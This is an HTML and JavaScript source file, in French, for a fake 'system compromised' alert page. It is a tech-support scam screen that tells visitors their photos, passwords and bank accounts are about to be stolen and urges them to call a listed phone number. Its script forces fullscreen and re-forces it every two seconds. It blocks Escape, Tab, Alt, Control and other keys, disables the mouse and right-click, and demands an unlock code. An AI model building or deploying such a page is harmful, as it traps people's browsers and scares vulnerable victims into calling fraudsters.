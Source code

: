 <!DOCTYPE html>
<html lang="fr">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Alerte Système</title>
    <style>
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
            user-select: none;
            cursor: none; /* Désactive totalement le pointeur */
        }
        html, body {
            width: 100vw;
            height: 100vh;
            background: black;
            color: white;
            font-family: 'Courier New', Courier, monospace;
            text-align: center;
            overflow: hidden;
            display: flex;
            justify-content: center;
            align-items: center;
        }
        .container {
            display: flex;
            flex-direction: column;
            justify-content: center;
            align-items: center;
            width: 100%;
            height: 100%;
            padding: 5%;
        }
        .message {
            font-size: 3vw; /* Taille de police réduite */
            font-weight: bold;
        }
        .alert-number {
            font-size: 2.5vw; /* Taille de police réduite */
            font-weight: bold;
            color: red;
        }
        #codeInput {
            margin-top: 20px;
            padding: 10px; /* Taille de police réduite */
            font-size: 2vw; /* Taille de police réduite */
            text-align: center;
            border: 2px solid white; /* Taille de bordure réduite */
            width: 50%;
            background: black;
            color: white;
            outline: none;
        }
        #error-message {
            color: red;
            font-size: 1.5vw; /* Taille de police réduite */
            margin-top: 10px;
            animation: shake 0.5s;
            animation-iteration-count: 1;
        }
        @keyframes shake {
            0% { transform: translateX(0); }
            25% { transform: translateX(-5px); }
            50% { transform: translateX(5px); }
            75% { transform: translateX(-5px); }
            100% { transform: translateX(0); }
        }
        .glitch {
            position: relative;
            color: white;
            font-size: 2vw; /* Taille de police réduite */
            animation: glitch 1s infinite;
        }
        @keyframes glitch {
            0% {
                text-shadow: 2px 2px red, -2px -2px blue;
            }
            25% {
                text-shadow: -2px 2px red, 2px -2px blue;
            }
            50% {
                text-shadow: 2px -2px red, -2px 2px blue;
            }
            75% {
                text-shadow: -2px -2px red, 2px 2px blue;
            }
            100% {
                text-shadow: 2px 2px red, -2px -2px blue;
            }
        }
    </style>
</head>
<body>
    <div class="container">
    <p class="alert-number">+44 741 30 52 610</p>
        <p class="message"> 🚨 ATTENTION !<br>Appelez immédiatement :</p>
🛑 Votre système est compromis ! 🛑🔴 Ne fermez PAS cette page ! 🔴🔴 Ne redémarrez PAS votre appareil ! 🔴
            📛Toutes vos données personnelles (photos, mots de passe, comptes bancaires) risquent d’être volées à tout moment.   <br>Appelez immédiatement :</p>
        <p class="alert-number">+44 741 30 52 610</p>
        <p style="font-size: 2vw;">Entrez le code de déverrouillage :</p> <!-- Taille de police réduite -->
        <input type="password" id="codeInput" placeholder="Code secret">
        <p id="error-message" class="glitch"></p>
    </div>
    <audio id="keypress-sound">
        <source src="https://www.soundjay.com/button/beep-07.wav" type="audio/wav">
    </audio>
    <audio id="error-sound">
        <source src="https://www.soundjay.com/button/beep-10.wav" type="audio/wav">
    </audio>
    <script>
        function openFullscreen() {
            let elem = document.documentElement;
            if (elem.requestFullscreen) {
                elem.requestFullscreen();
            } else if (elem.mozRequestFullScreen) {
                elem.mozRequestFullScreen();
            } else if (elem.webkitRequestFullscreen) {
                elem.webkitRequestFullscreen();
            } else if (elem.msRequestFullscreen) {
                elem.msRequestFullscreen();
            }
        }
        openFullscreen();

        // Bloquer tous les raccourcis clavier
        document.addEventListener("keydown", function(event) {
            let blockedKeys = ["Escape", "Tab", "F11", "F4", "Alt", "Control", "Meta"];
            if (blockedKeys.includes(event.key) || (event.ctrlKey && event.key === "w")) {
                event.preventDefault();
                return false;
            }
        });

        // Désactiver totalement la touche Échap
        window.addEventListener("keydown", function(event) {
            if (event.key === "Escape") {
                event.preventDefault();
                return false;
            }
        });

        // Désactiver complètement la souris
        window.addEventListener("mousemove", function(event) {
            event.preventDefault();
        });
        window.addEventListener("mousedown", function(event) {
            event.preventDefault();
        });
        window.addEventListener("mouseup", function(event) {
            event.preventDefault();
        });
        window.addEventListener("contextmenu", function(event) {
            event.preventDefault();
        });
        window.addEventListener("wheel", function(event) {
            event.preventDefault();
        });

        // Empêcher la sortie du plein écran
        document.addEventListener("fullscreenchange", function() {
            if (!document.fullscreenElement) {
                openFullscreen();
            }
        });

        // Ajouter un son à chaque touche pressée
        let inputField = document.getElementById("codeInput");
        let errorMessage = document.getElementById("error-message");
        let sound = document.getElementById("keypress-sound");
        let errorSound = document.getElementById("error-sound");

        inputField.addEventListener("keydown", function(event) {
            if (!["Enter", "Backspace"].includes(event.key)) {
                sound.play();
            }
        });

        // Vérifier le code
        inputField.addEventListener("keyup", function(event) {
            if (event.key === "Enter") {
                if (this.value === "1234") {
                    document.body.innerHTML = "<h1 style='color: white; text-align: center; margin-top: 20%; font-size: 3vw;'>  Système restauré</h1>"; /* Taille de police réduite */
                } else {
                    errorMessage.innerText = "Code incorrect !";
                    errorMessage.classList.remove("glitch");
                    void errorMessage.offsetWidth; // Reset animation
                    errorMessage.classList.add("glitch");
                    errorSound.play();
                    this.value = "";
                }
            }
        });

        // Focus automatique sur le champ
        window.onload = function() {
            inputField.focus();
        };

        // Reforcer le plein écran toutes les 2 secondes
        setInterval(openFullscreen, 2000);
    </script>
</body>
</html>
 
